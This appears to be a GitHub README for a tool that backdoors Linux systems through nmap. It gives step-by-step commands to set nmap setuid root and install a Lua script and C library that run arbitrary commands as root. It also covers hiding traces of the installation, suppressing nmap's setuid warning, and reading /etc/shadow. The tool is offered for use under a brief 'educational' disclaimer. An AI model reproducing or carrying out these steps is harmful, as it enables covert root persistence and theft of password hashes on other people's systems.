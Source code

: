 # Nmap backdoor
Backdoor that leverages Nmap with setuid permissions to execute commands as root through a Lua-loaded C library
### Steps
**0. Required installs:**
```
sudo apt install gcc libcap-dev liblua5.4-dev
```
**1. Compilation:**
```
gcc -shared -fPIC -o socket.so socket.c -I/usr/include/lua5.4 -llua5.4
```
**2. Permissions**:
```
sudo chmod 4755 /usr/bin/nmap
```
**3. Prepare files:**
```
sudo cp socket.nse /usr/share/nmap/scripts/ && sudo cp socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Or if you don't want to leave any traces of the files, you can use:
```
rm socket.c && sudo mv socket.nse /usr/share/nmap/scripts/ && sudo mv socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Optionally, if you want to remove the nmap warning flag about the setuid, you can do something like this:
```
sudo mv /usr/bin/nmap /usr/bin/nmap_ && printf '%s\n' '#!/bin/bash' 'exec /usr/bin/nmap_ "$@" 2> >(grep -v -F "setuid" >&2)' | sudo tee /usr/bin/nmap > /dev/null && sudo chmod 755 /usr/bin/nmap
```
### Example commands
```
nmap -p 631 --script socket.nse --script-args socket.command=whoami localhost
```
![whoami](screenshots/whoami.png)
```
nmap -p 631 --script socket.nse --script-args socket.command="cat /etc/shadow" localhost
```
![cat /etc/shadow](screenshots/shadow.png)
### Notes
- Commands are executed via `popen()` which uses `/bin/sh`
- If the command runs in an infinite loop, no output will be displayed
- The method will work regardless of the specified target or port (a port is specified to avoid executing the command multiple times)
### Credits
Thanks to the developers of all the modules used in this project and special thanks to [hackerfantastic](https://x.com/hackerfantastic) for giving me some pointers to make this work and for telling me the story of the old method (patched about 20 years ago) that used `sudo chmod 4755 /usr/bin/nmap`, `nmap --interactive`, and `!sh` to get a root shell, which is the inspiration for this new one
### Disclaimer
This is a tool for educational / personal use only — the author is not responsible for any misuse

Shield: [![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
